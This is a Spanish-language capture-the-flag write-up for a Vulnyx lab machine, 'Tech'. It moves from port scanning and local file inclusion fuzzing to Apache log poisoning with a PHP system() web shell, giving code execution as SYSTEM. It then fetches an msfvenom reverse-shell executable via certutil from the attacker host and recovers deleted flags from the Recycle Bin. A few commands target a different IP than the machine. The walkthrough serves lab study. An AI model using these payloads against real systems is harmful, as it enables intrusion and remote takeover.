



## Table of contents

## Enumeración

La máquina Tech tiene la ip **10.0.2.51**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 10.0.2.51

Nmap scan report for 10.0.2.51
Host is up (0.00034s latency).
Not shown: 59843 closed tcp ports (reset), 5679 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Techro - Flat Free Responsive bootstrap template
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:FD:89:A3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Puerto 80 (Web)

Accedemos con el navegador a la ip y vemos la página de una empresa.



Si revisamos sus diferentes directorios encontramos un **page.php** al que se le pasa el parámetro **i**.



Vamos a tratar de ver si es vulnerable a un **Local File Inclusion** (**LFI**), para ello emplearemos el diccionario **Windows-Path.txt** de la **SecLists** junto con **ffuf**.

Tras usarlo no obtenemos nada, por lo que vamos a realizar una pequeña modificación en este diccionario cambiando la "**C**" mayúscula referente a la partición principal donde se monta Windows por una "**c**" minúscula.

```bash
cat /usr/share/wordlists/SecLists/Fuzzing/LFI/Windows/Windows-Paths.txt | tr  "C:" "c:" > Windows-Paths-min.txt
```

Ahora repetimos el ataque con este nuevo diccionario.

```bash
 ffuf -c -u "http://10.0.2.51/page.php?i=FUZZ" -w Windows-Path-min.txt -fs 0

 :: Method           : GET
 :: URL              : http://10.0.2.51/page.php?i=FUZZ
 :: Wordlist         : FUZZ: /home/kali/Desktop/machines/Vulnyx/Tech/Windows-Path-min.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

c:\Windows\System32\drivers\etc\hosts [Status: 200, Size: 824, Words: 172, Lines: 22, Duration: 4ms]
c:\xampp\apache\conf\httpd.conf [Status: 200, Size: 21844, Words: 2706, Lines: 567, Duration: 3ms]
```

Podemos ver dos archivos, nos vamos a centrar en el **httpd.conf** que es el archivo principal de configuración de **apache**.

```bash
curl -s "http://10.0.2.51/page.php?i=c:\xampp\apache\conf\httpd.conf"

...
   </IfModule>

    #
    # The location and format of the access logfile (Common Logfile Format).
    # If you do not define any access logfiles within a <VirtualHost>
    # container, they will be logged here.  Contrariwise, if you *do*
    # define per-<VirtualHost> access logfiles, transactions will be
    # logged therein and *not* in this file.
    #
    #CustomLog "logs/access.log" common

    #
    # If you prefer a logfile with access, agent, and referer information
    # (Combined Logfile Format) you can use the following directive.
    #
    CustomLog "logs/techro-events/access.log" combined
</IfModule>
...
```

## Explotación
### Log Poisoning

De este arhivo nos interesa la ruta relativa **logs/techro-events/access.log** en la cual se encuentran los logs de apache. Vamos a tratar de leerlos utilizando el **LFI**.


```bash
curl -s "http://10.0.2.51/page.php?i=c:\xampp\apache\logs\techro-events\access.log"

10.0.2.38 - - [10/Jul/2026:09:12:47 -0700] "GET /index.html HTTP/1.1" 200 15979 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/bootstrap.min.css HTTP/1.1" 200 98453 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/font-awesome.min.css HTTP/1.1" 200 17780 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/bootstrap-theme.css HTTP/1.1" 200 4909 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/da-slider.css HTTP/1.1" 200 19143 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/style.css HTTP/1.1" 200 12843 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
...
```

Conseguimos leer los logs, esto nos permite poder realizar un **Log Poisoning** para poder derivar este **LFI** en un **Remote Code Execution** (**RCE**).

Para poder realizarlo primero "envenenamos" los logs de apache a través del **User-Agent** con código de php.

```bash
curl -s "http://10.0.2.51/" -A "<?php system(\$_GET['cmd']);?>"
``` 

Ahora apuntamos a los logs y le pasamos a la petición el parámetro **cmd** que hemos creado con el comando **whoami**

```bash
curl -s "http://10.0.2.51/page.php?i=c:\xampp\apache\logs\techro-events\access.log&cmd=whoami"

10.0.2.38 - - [10/Jul/2026:09:12:47 -0700] "GET /index.html HTTP/1.1" 200 15979 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/bootstrap.min.css HTTP/1.1" 200 98453 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
10.0.2.38 - - [10/Jul/2026:09:12:48 -0700] "GET /assets/css/font-awesome.min.css HTTP/1.1" 200 17780 "http://10.0.2.51/index.html" "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
...
10.0.2.38 - - [10/Jul/2026:09:14:13 -0700] "GET / HTTP/1.1" 200 15979 "-" "nt authority\system
...
```

Tenemos un **RCE** como el usuario **nt authority\system**, es decir, el usuario administrador del servidor. Vamos a proceder a mandarnos una reverse shell.

Primero creamos un ejecutable empleando **msfvenom** que se va a encargar de mandarnos la shell. A este ejecutable lo llamaremos **rev.exe**.

```bash
msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=10.0.2.38 LPORT=4444 -f exe -o rev.exe
```

Levantamos un servicio **http** con **python** para que la máquina víctima pueda acceder al ejecutable.

```bash
python3 -m http.server 80
```

Mediante el **RCE** utilizamos el comando **certutil** para descargar el ejecutable y guardarlo en el directorio **C:\Windows\Temp**

```bash
curl -s "http://10.0.2.52/page.php?i=c:\xampp\apache\logs\techro-events\access.log&cmd=certutil+-urlcache+-f+http://10.0.2.38/rev.exe+C:\Windows\Temp\rev.exe"
``` 

Una vez hecho, nos ponemos en escucha con **netcat** y empleamos **rlwrap** para darle más funcionalidades a la shell que vamos a recibir.

```bash
rlwrap nc -nlvp 4444
```

Y ejecutamos con **cmd.exe** el ejecutable.

```bash
curl -s "http://10.0.2.52/page.php?i=c:\xampp\apache\logs\techro-events\access.log&cmd=cmd.exe+/c+C:\Windows\Temp\rev.exe"
```

Recibimos la reverse shell y entramos como el usuario **administrador**. Tenemos una **cmd**, la cual es algo limitada, así que usando el comando **powershell** nos lanza una **Windows PowerShell**.

```bash
rlwrap nc -nvlp 4444

listening on [any] 4444 ...
connect to [10.0.2.38] from (UNKNOWN) [10.0.2.51] 49769
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>whoami
whoami
nt authority\system

C:\xampp\htdocs>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs> 
```

## Obtención de las Flags

Revisamos el directorio del administrador y no encontramos ninguna flag.

Vamos a echarle un ojo al historial de comandos de la Powershell del usuario Administrador.

```powershell
PS C:\Users\Administrator> type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

whoami
ipconfig
Remove-Item "C:\Users\Administrator\Desktop\user.txt" -Force
Remove-Item "C:\Users\Administrator\Desktop\root.txt" -Force
```

Ambas flags han sido borradas, así que vamos a listar el contenido de la "**Recycle.Bin**".

```powershell
PS C:\Users\Administrator\Desktop> Get-ChildItem -Path "C:\`$Recycle.Bin" -Force

    Directory: C:\$Recycle.Bin

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d--hs-        7/11/2026   8:54 AM                S-1-5-18                                                              
d--hs-        5/24/2026   1:39 PM                S-1-5-21-1836463444-3531003937-1365364296-500                         

```

Vemos dos **Security Identifier** (**SID**), nos interesa el segundo así que vamos a listar su contenido.

```powershell
PS C:\Users\Administrator\Desktop> Get-ChildItem -Path "C:\`$Recycle.Bin\S-1-5-21-1836463444-3531003937-1365364296-500" -Force

    Directory: C:\$Recycle.Bin\S-1-5-21-1836463444-3531003937-1365364296-500

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        5/24/2026  12:12 PM            108 $I43FBX5.txt                                                          
-a----        5/24/2026  12:36 PM            108 $IIO2WTR.txt                                                          
-a----        5/24/2026  11:29 AM            116 $IJNBOKD.txt                                                          
-a----        5/24/2026  12:36 PM            108 $IXL59HJ.txt                                                          
-a----        5/24/2026  12:12 PM            108 $IYVIB6R.txt                                                          
-a----        5/24/2026  12:12 PM             70 $RIO2WTR.txt                                                          
-a----        5/24/2026  12:12 PM             70 $RXL59HJ.txt                                                          
-a-hs-        5/23/2026  11:43 AM            129 desktop.ini                                                           
```

Los archivos **$R** tienen el contenido de los archivos borrados, en este caso, las dos flags, y los archivos **$I** guardan metadatos como el nombre, la ruta del archivo, ...

Listamos el contenido de los dos archivos **$R** para obtener las flags.

```powershell
PS C:\Users\Administrator\Desktop> Get-Content -Path "C:\`$Recycle.Bin\S-1-5-21-1836463444-3531003937-1365364296-500\`$RIO2WTR.txt"

c0XXXXXXXXXXXXXXXXXXXXXXXXXXXX67

PS C:\Users\Administrator\Desktop> Get-Content -Path "C:\`$Recycle.Bin\S-1-5-21-1836463444-3531003937-1365364296-500\`$RXL59HJ.txt"

dbXXXXXXXXXXXXXXXXXXXXXXXXXXXXe7
```
